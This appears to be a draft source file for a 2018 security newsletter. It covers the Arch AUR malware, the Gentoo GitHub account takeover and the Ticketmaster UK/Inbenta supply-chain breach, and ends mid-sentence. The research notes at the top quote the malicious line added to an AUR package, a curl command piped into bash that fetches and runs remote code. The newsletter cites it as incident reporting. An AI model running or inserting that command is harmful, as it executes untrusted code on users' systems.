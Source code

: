 ```yaml
---
layout: email
title: Supply-chain attacks: Arch, Gentoo, and Ticketmaster UK
---
```


Follow-up to previous KATTFAKTA - mention that risk based has the issue where company just accepts risks even if it shouldn’t

ASD follow-up:
https://zdnet.com/article/asd-restructure-trouble-at-t-cyber-mill/
https://asd.gov.au/publications/plans/ASD-Corporate-Plan-2018.pdf
https://warontherocks.com/2018/07/fish-out-of-water-how-the-military-is-an-impossible-place-for-hackers-and-what-to-do-about-it/

NPM hacked:
https://twitter.com/npmstatus/status/1017441729656455168
https://status.npmjs.org/incidents/dn7c1fgrr7ng
https://theregister.co.uk/2018/07/12/npm_eslint/


This commit:
https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc

Right at the bottom, the line 
```
curl -s https://ptpb.pw/~x|bash -&
```
has been added 

https://www.bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/



Good morning.

My last email contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

### Dot-terminating domain names for domain blacklisting

A quick one to start with: Sucuri has an excellent [blog post](https://blog.sucuri.net/2018/07/coinimp-cryptominer-and-fully-qualified-domain-names.html) regarding the use of dot-terminated domain names to bypass domain blacklists. It's a cute trick, and yet another example of why blacklists are a fragile security measure.




### Gentoo's GitHub account hacked

Last week, the Gentoo Linux GitHub project was compromised. From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

Supply-chain attacks are something we've covered previously (most notably [here](https://markeldo.com/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/) and [here](https://markeldo.com/Email-update-Cisco-and-Cryptomining/)), and this is a classic example. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker—rather than attacking Ticketmaster directly—compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up

They're 

https://www.troyhunt.com/the-javascript-supply-chain-paradox-sri-csp-and-trust-in-third-party-libraries/
